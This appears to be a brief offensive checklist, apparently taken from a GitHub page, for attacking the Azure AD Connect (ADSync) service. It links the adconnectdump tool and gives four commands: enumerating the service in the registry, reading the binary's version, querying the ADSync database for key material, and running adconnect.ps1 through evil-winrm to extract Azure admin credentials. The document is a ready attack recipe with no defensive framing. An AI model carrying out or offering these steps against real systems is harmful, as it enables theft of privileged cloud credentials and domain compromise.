 ### Service Name: ADSync

### Tools: https://github.com/dirkjanm/adconnectdump

### STEPS:

#### 1) Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync (Enumerate the service instance using the registry)

#### 2) Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force (Obtain the file and product version)

#### 3) sqlcmd -S HOSTNAME -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration" (Query the values that you might need to add to the script corresponding to your use case) (Optional)

#### 4) evil-winrm -i IP_ADDRESS -u USERNAME -p "PASSWORD" -s . adconnect.ps1 (Run the powershell script against the target to extract the Azure Admin credentials)
